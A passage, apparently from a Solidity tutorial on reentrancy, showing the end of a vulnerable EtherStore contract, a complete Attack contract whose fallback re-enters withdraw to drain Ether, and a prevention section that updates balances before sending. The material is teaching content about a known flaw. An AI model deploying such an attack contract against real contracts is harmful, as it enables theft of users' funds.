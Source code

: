 ```solidity
    
    function getBalance() public view returns (uint) {
        return address(this).balance;
    }
}

contract Attack {
    EtherStore public etherStore;
    constructor(address _etherStoreAddress) public {
        etherStore = EtherStore(_etherStoreAddress);
    }
    
    fallback() external payable {
        if(address(etherStore).balance >= 1 ether) {
            etherStore.withdraw(1 ether);
        }
    }
    
    function attack() external payable {
        require(msg.value >= 1 ether);
        etherStore.deposit{value: 1 ether}();
        etherStore.withdraw(1 ether);
    }
    
    
    function getBalance() public view returns (uint) {
        return address(this).balance;
    }
}
```

#### prevention

##### method 1

```solidity
pragma solidity ^0.6.10;

/*
-What is reentrancy
*/

contract EtherStore{
    mapping(address => uint) public balances;
    
    function deposit() public payable {
        balances[msg.sender] += msg.value;
    }
    
    function withdraw(uint _amount) public {
        require(balances[msg.sender] >= _amount);
        
                balances[msg.sender] -= _amount;
                
        (bool sent, ) = msg.sender.call{value: _amount}("");
        require(sent, "Failed to send Ether");
        
    }
    
    function getBalance() public view returns (uint) {
        return address(this).balance;
    }
}

```